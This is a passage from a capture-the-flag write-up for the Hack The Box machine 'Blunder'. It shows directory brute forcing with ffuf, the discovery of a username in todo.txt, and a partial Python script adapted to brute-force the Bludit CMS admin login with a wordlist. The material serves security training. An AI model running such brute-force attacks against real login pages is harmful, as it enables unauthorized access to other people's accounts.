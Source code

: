 After dirbusting we find a **todo.txt** file that contains a potential username: **fergus**

```
wscan@kali:~/htb/blunder$ ffuf -w $WLRC -t 50 -e .txt -u http://blunder.htb/FUZZ -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://blunder.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 403
________________________________________________

0                       [Status: 200, Size: 7561, Words: 794, Lines: 171]
LICENSE                 [Status: 200, Size: 1083, Words: 155, Lines: 22]
about                   [Status: 200, Size: 3280, Words: 225, Lines: 106]
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
cgi-bin/                [Status: 301, Size: 0, Words: 1, Lines: 1]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
todo.txt                [Status: 200, Size: 118, Words: 20, Lines: 5]

snowscan@kali:~/htb/blunder$ curl http://blunder.htb/todo.txt
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

```

To brute force we can use the following script: https://rastating.github.io/bludit-brute-force-mitigation-bypass/

I modified it a little bit to take a wordlist from argv:

```python
[...]
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

with open(sys.argv[1]) as f:
    passwords = f.read().splitlines()    
[...]
```
